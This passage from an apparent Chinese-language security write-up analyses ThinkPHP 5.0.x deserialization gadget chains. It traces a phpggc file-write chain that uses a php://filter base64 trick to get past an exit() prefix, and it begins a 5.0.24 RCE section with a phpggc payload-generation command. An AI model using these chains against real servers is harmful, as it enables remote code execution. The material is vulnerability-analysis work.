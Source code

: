 到此为止,成功写入文件, 需要注意的是phpggc生成的这个payload写入的文件文件名是固定的`3b58a9545013e88c7186db11bb158c44.php`, 理由前面说过, 就是该文件名的生成就null值的md5再拼接上字符串`tag_`然后再进行md5.

整体思路如下, 感觉最关键的还是在setTagItem那一步, 那一步将原本是key的payload变成了value参数, 并使其在后面成功被写入文件. 

```
think\Process#__destruct --> 
think\Process#stop --> 
think\model\relation\HasMany#close --> 
think\model\relation\HasMany#__call --> 
think\model\relation\HasMany#baseQuery --> 
think\console\Output#where --> 
think\console\Output#__call --> 
call_user_func_array --> 
think\console\Output#block --> writeln --> write --> 
think\session\driver\Memcache#write --> 
think\cache\driver\Memcached#set (1) --> 
think\cache\driver\Memcached#has --> 
think\cache\driver\File#get --> getCacheKey --> 将php://filter伪协议拼接到开头,返回php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42.php ,注意这个文件不是目标文件 --> 
think\cache\driver\Memcached#getCacheKey 返回<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where> --> 
think\cache\driver\File#set --> getCacheKey获取文件名,对<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where>进行md5之后进行拼接成为php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42.php,同时这里可以进行一个mkdir,然而这里的目录名是非法的,然后返回文件名 --> 
回到set方法,$data前面拼接上了死亡exit,进行file_put_contents,生成文件 6a644d26b09257b882dae6e407f23d42.php,内容为乱码 --> 
回到(1) 函数 --> 
think\cache\driver\Memcached#setTagItem 生成可控的tag名--> 
再次进入think\cache\driver\Memcached#set , 两个参数都可控 --> 
think\cache\driver\File#set 参数是前面的两个参数 --> getCacheKey 将tag名进行md5之后进行拼接得到 php://filter/convert.base64-decode/resource=/srv/http/tp5/3b58a9545013e88c7186db11bb158c44.php --> 
回到\think\cache\driver\File#set 对之前可控参数之一data进行死亡exit拼接,并进行file_put_contents,效果就是file_put_contents('php://filter/convert.base64-decode/resource=/srv/http/tp5/3b58a9545013e88c7186db11bb158c44.php', '<?php\n//000000000000\nexit();?>\ns:46:"<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where>";') --> 
文件写入成功,内容为乱码+php代码
```

## 5.0.24 RCE

### 环境搭建

同上

### 漏洞分析

首先生成payload

```
./phpggc ThinkPHP/RCE2 system "touch /tmp/helloman" | base64 -w 0
```

开始调试前, 请确认你的php环境的版本, 如果版本是php7.x, 请打开文件`thinkphp/library/think/db/Query.php`  看第400行代码, 这里使用我的带有警告提示的vim看: 

![image-20220118152359839](image-20220118152359839.png)
